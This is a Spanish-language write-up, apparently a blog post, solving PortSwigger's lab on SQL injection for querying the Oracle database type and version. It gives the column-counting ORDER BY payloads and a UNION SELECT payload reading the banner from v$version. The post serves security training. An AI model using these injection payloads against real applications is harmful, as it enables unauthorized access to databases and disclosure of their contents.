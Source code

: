 ```yaml
---
title: PortSwigger - SQL injection attack, querying the database type and version on Oracle.
layout: post
post-image: /assets/images/gatohacker4.jpg 
description: La resolución del reto SQL injection attack, querying the database type and version on Oracle. 
tags:
- portswigger
- sqli
- post
- writeups
---
```

# Solución
---

Primero hacemos click en **Accessories** o en cualquier otro filtro de búsqueda.

![](/assets/images/images-portswigger-sqli/lab7-1.png)

Luego ejecutamos una query para enumerar la cantidad de columnas que existen.

```sql
' ORDER BY 1 -- -
```

![](/assets/images/images-portswigger-sqli/lab7-4.png)

Con 1 la página funciona correctamente. Debemos seguir hasta que la página falle.

```sql
' ORDER BY 1,2 -- -
```

![](/assets/images/images-portswigger-sqli/lab7-5.png)

Con 3 la página falla, esto significa que debemos agregar 2 `null` a nuestra query final.

```sql
' ORDER BY 1,2,3 -- -
```

![](/assets/images/images-portswigger-sqli/lab7-6.png)

Siguiendo la [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) de PortSwigger podemos armar nuestra query final. 

Debemos identificar la versión que la base de datos, primero probaremos con Oracle y si no funciona probamos con Microsoft, PostgreSQL y así.

```sql
' UNION SELECT banner,null from v$version -- -
```

Por suerte el primer payload funcionó e identificamos que la base de datos es Oracle, además resolvimos el lab.

![](/assets/images/images-portswigger-sqli/lab7-7.png)

